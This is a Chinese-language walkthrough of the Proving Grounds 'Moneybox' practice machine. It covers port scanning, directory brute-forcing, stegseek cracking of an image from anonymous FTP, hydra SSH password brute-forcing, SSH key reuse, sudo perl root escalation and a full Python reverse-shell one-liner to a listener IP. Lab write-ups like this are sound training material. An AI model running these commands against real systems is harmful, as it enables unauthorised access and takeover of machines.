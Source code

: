 # Proving Grounds-> Moneybox 靶场笔记

### 打开靶机拿到ip 192.168.228.230 ，先扫一下端口

```
nmap -sT --min-rate 10000 -p- 192.168.228.230
```

发现了21,22,80三个开放端口，开放80和22都是正常操作，开放21就有点意思了，大概率ftp出货

### 对这三个端口进行针对性探测

```
sudo nmap -sT -sC -sV -O  -p21,22,80 192.168.228.230 -oA not
扫描结果如下
# Nmap 7.93 scan initiated Thu Apr 20 17:20:49 2023 as: nmap -sT -sC -sV -O -p21,22,80 -oA not 192.168.228.230
Nmap scan report for 192.168.228.230
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e30ce7281e0a23d5c28888b12acfaac (RSA)
|   256 019dfafbf20637c012fc018b248f53ae (ECDSA)
|_  256 2f34b3d074b47f8d17d237b12e32f7eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: MoneyBox
|_http-server-header: Apache/2.4.38 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc|firewall|WAP
Running (JUST GUESSING): Linux 2.6.X|4.X|5.X|3.X|2.4.X (87%), Synology DiskStation Manager 5.X (86%), WatchGuard Fireware 11.X (86%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:3.10 cpe:/o:linux:linux_kernel cpe:/a:synology:diskstation_manager:5.1 cpe:/o:watchguard:fireware:11.8 cpe:/o:linux:linux_kernel:2.4
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.6 (87%), Linux 2.6.32 (86%), Linux 2.6.32 or 3.10 (86%), Linux 2.6.39 (86%), Linux 3.10 - 3.12 (86%), Linux 3.4 (86%), Linux 3.5 (86%), Linux 3.7 (86%), Linux 4.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 20 17:21:11 2023 -- 1 IP address (1 host up) scanned in 21.88 seconds

```

不难发现，ftp里面有张图片，而且可以匿名登录下载下来，先不着急

### 开放了80，先爆破子目录，以及敏感后缀名

```
sudo gobuster dir -u http://192.168.228.230/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
sudo gobuster dir -u http://192.168.228.230/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sql,txt,rar,zip,tar
sudo gobuster dir -u http://192.168.213.85/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sql,txt,rar,zip,tar
sudo gobuster dir -u http://192.168.213.85/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

根据我的经验，目录爆破一般是比较慢的，不着急，出了一个url http://192.168.225.230/blogs/

只有一段文字，可能是在暗示这个靶机被留了门？继续，看下ftp

![image-20230420201558924](https://s2.loli.net/2023/04/23/cWH3bNiQpG2gtqu.png)

### 尝试连接ftp并寻找线索

登录上去找到了一张照片，下载下来，用steghide检查下，提示我输入密码查看隐藏内容。

![image-20230420202036504](https://s2.loli.net/2023/04/23/BaGhPw4qszfx1il.png)

![image-20230420202119438](https://s2.loli.net/2023/04/23/aD8oSACc6rLhx7M.png)

#### stegseek简单教学

stegseek只提供deb包，所以只支持Linux，win不适用

github链接https://github.com/RickdeJager/stegseek

**使用方法**

```
使用给定的字典爆破
stegseek [stegofile.jpg] [wordlist.txt]
利用漏洞无密码爆破
stegseek --seed [stegofile.jpg]
优先第二种，比较快，第二种不行再用第一种爆破
```

### 使用stegseek爆破图片隐藏信息

stegseek --seed trytofind.jpg   

![image-20230420203052681](https://s2.loli.net/2023/04/23/5R7TFjX1sEnlYwg.png)

看一下.out文件

```
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

泄露了用户名，并且暗示密码可能是弱口令

### 使用hydra 进行ssh密码爆破

hydra -l renu -P  rockyou.txt  192.168.225.230 ssh

![image-20230420203700222](https://s2.loli.net/2023/04/23/6JFqvLh7rS2CmRg.png)

很快爆破出密码，直接登录

### 尝试提权

按照惯例，在用户目录拿到第一个flag，尝试sudo提权，提示我当前用户不能执行任何sudo命令，只好作罢，但是我咋用户目录发现了.ssh文件夹，进去一看，公钥私钥都在，接着进入另一个用户lily的目录，竟然进去了，也有.ssh目录，目录中有authorized_keys。

简单解释下，如果我把renu的公钥写入lily的authorized_keys，那我就可以用renu的私钥直接登录lily的账号尝试写入

cat id_rsa.pub >> /home/lily/.ssh/authorized_keys

报错没有权限，果然只能看不能写，可是经过对比发现，authorized_keys和renu的id_rsa.pub 是一样的

![image-20230420205144416](https://s2.loli.net/2023/04/23/OtEHY6C8zBrbyJV.png)

直接登录ssh -i id_rsa lily@127.0.0.1

sudo 看下有没有可以执行的，有一个，usr/bin/perl

那就perl提权吧

sudo perl -e 'exec "/bin/sh";'

提到root之后再用py反弹shell，本地监听端口，getshell，getflag

```
find /etc/passwd -exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.5",9919));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;
其实可以不反弹shell直接用这个root权限做就行，我这么做单纯是习惯
```

![image-20230420205640770](https://s2.loli.net/2023/04/23/rfRBOIbyeknoNWD.png)

![image-20230420205720514](https://s2.loli.net/2023/04/23/UurKiv13Jsd5n8y.png)